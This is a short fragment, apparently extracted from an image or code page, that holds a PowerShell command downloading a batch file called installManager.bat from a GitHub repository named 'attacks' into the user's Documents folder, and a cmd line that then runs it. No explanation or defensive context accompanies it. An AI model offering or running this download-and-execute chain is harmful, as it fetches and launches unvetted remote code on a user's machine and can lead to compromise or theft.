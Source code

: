 powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/petrohemia/attacks/refs/heads/main/installManager.bat' -OutFile $env:USERPROFILE\Documents\installManager.bat"

cmd /k start "" "%USERPROFILE%\Documents\installManager.bat" print.py
